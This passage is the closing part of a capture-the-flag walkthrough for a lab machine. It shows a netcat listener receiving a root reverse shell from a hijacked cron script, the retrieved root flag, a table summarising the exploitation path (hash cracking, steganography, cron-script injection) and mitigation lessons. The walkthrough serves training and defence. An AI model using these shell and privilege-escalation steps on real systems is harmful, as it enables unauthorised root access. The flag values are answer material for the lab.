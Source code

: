 ```bash
nc -lvnp 1234
# then wait for the connection
```

When the cron executed, it connected back:

```
connect to [10.17.21.245] from (UNKNOWN) [10.201.90.140] 53748
# id
uid=0(root) gid=0(root) groups=0(root)
```

We obtained a root shell.

---

## 🏁 Step 7: Root Flag

Read root flag:

```bash
cat /root/.root.txt
# flag{63a9f0ea7bb98050796b649e85481845}
```

**Root flag:** `flag{63a9f0ea7bb98050796b649e85481845}`

---

## ✅ Summary of Exploitation Path

| Phase                | Technique / Tool                      | Result / Notes                                             |
| :------------------- | :------------------------------------ | :--------------------------------------------------------- |
| Recon                | nmap, service/version detection       | ports 80, 6498 (ssh), 65524 (http)                         |
| Web discovery        | gobuster, manual inspection           | `/hidden` -> base64 flag                                   |
| Encoding discovery   | Base64, Base62 decoding               | `flag{f1rs7_fl4g}`, `/n0th1ng3ls3m4tt3r`                   |
| Hash cracking        | md5hashing.net, hashcat (GOST -m6900) | `flag{1m_s3c0nd_fl4g}`, `mypasswordforthatjob`             |
| Steganography        | steghide                              | extracted credentials (binary → ASCII)                     |
| Initial access       | ssh (non-standard port)               | user `boring`                                              |
| Privilege escalation | writable & executable cron script     | injected reverse shell into `/var/www/.mysecretcronjob.sh` |
| Root access          | netcat listener -> reverse shell      | root shell; root flag read                                 |

---

## 🔒 Mitigation & Lessons Learned

* **Avoid storing sensitive tokens/passwords in public repos or source files.** Leaked hashes and artifacts were used to pivot.
* **Use strong hashing and salting** for stored passwords; MD5 and unsalted hashes are trivial to crack.
* **File/cron permissions**: never make scripts writable by unprivileged users if they run as root. Use least privilege and proper ownership.
* **Monitor abnormal cron/script edits** and use file integrity checks (AIDE, tripwire).
* **Steganography hygiene**: avoid embedding secrets in static assets served publicly.

---